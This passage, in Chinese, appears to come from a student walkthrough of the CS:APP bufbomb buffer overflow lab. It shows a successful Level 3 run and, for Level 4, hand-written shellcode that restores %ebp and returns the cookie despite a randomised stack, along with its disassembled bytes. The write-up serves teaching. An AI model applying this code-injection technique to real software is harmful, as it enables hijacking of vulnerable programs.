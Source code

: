 剩下的步骤照旧

```
$./hex2raw in3 out3
$./bufbomb < out3 -u yy
```

结果如下：

```
Userid: yy
Cookie: 0x2a50279f
Type string:Boom!: getbuf returned 0x2a50279f
VALID
NICE JOB!
```


# Level 4
本级要使用./bufbomb的-n参数，bufbomb不会再像从前哪样调用test()，而是调用testn()，testn()又调用getbufn().本级的任务是使getn返回cookie给testn()。听上去似乎与上一级没什么不同，但实际上该级的栈地址是动态的，每次都不一样，bufbomb会连续要我们输入5次字符串，每次都调用getbufn(),每次的栈地址都不一样，我么将不能再使用原来用gdb调试的方法来求%ebp的地址了。
bufbomb在5次调用testn()和getbufn()的过程中，两个函数的栈是连续的，在testn()汇编代码开头有

```
 8048c1c: 55                      push   %ebp
 8048c1d: 89 e5                   mov    %esp,%ebp
 8048c1f: 83 ec 28                sub    $0x28,%esp
```

可知%esp=%ebp-0x28,即
%ebp=%esp+0x28
其中，getbufn执行ret前的leave指令已经正确地恢复%esp(leave等价于 mov %ebp,%esp; pop %ebp，我们的字符串无法覆盖%ebp,%esp寄存器，%esp是从寄存器%ebp里来的，因此是正确的)。

可以开始写代码~\(≧▽≦)/~啦啦啦，

```
vi rettestn.s
```

```
mov $0x2a50279f, %eax       //将cookie写入%eax,作为getbufn返回值
lea 0x28(%esp), %ebp        //%ebp=%esp+0x28,恢复%ebp
push $0x8048c2e
ret                         //最后两句返回到testn中call getbufn下一句
```

保存后，进行编译，再反汇编

```
gcc -m32 -c rettestn.s
objdump -d rettestn.o > rettestn_asm
```

打开rettestn_asm有

```
00000000 <.text>:
   0: b8 9f 27 50 2a         mov    $0x2a50279f,%eax
   5: 8d 6c 24 28            lea    0x28(%esp),%ebp
   9: 68 2e 8c 04 08         push   $0x8048c2e
   e: c3                     ret 
```
